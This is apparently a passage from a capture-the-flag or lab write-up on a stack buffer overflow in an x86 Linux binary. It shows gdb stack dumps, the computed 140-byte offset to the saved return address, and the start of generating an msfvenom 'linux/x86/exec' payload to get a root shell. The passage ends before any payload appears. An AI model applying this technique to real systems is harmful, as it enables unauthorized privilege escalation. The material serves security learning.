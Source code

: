 To make our input string we will use two major commands:

- display top stack with:
```
(gdb) x/64wx $esp
0xbffff610:	0xbffff620	0xbffff889	0x00000001	0xb7ec3c49
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff630:	0xbf004141	0xb7fdd000	0x00000000	0xb7e5ec73
0xbffff640:	0x08048241	0x00000000	0x00ca0000	0x00000001
0xbffff650:	0xbffff874	0x0000002f	0xbffff6ac	0xb7fd0ff4
0xbffff660:	0x08048440	0x080496e8	0x00000002	0x080482dd
0xbffff670:	0xb7fd13e4	0x0000000d	0x080496e8	0x08048461
0xbffff680:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff690:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
0xbffff6a0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
0xbffff6b0:	0x00000002	0xbffff744	0xbffff750	0xb7fdc858
0xbffff6c0:	0x00000000	0xbffff71c	0xbffff750	0x00000000
0xbffff6d0:	0x0804820c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff6e0:	0x00000000	0x9e06e153	0xa942a543	0x00000000
0xbffff6f0:	0x00000000	0x00000000	0x00000002	0x08048340
0xbffff700:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
```
Note: (0x41 = 'A') We can see our input at adress 0xbffff620.
- Display frame's infos
```
(gdb) info frame
Stack level 0, frame at 0xbffff6b0:
 eip = 0x8048436 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6a8, args:
 Locals at 0xbffff6a8, Previous frame's sp is 0xbffff6b0
 Saved registers:
  ebp at 0xbffff6a8, eip at 0xbffff6ac
```

### find segfault's offset
calculate the difference between addresses in gdb:     
ex: p/d adress_eip - address_inputStart
```
(gdb) p/d  0xbffff6ac - 0xbffff620
```
The difference is an offset of 140.


From here we must generate a x86 payload that will open us a shell as root. 

### make a payload with msfvenom

To generate the payload, we used a famous payload generator called `msfvenom`.    
Choose your payload with:
```bash
$> msfvenom --list payloads
```
We will used the paylaod: `linux/x86/exec`
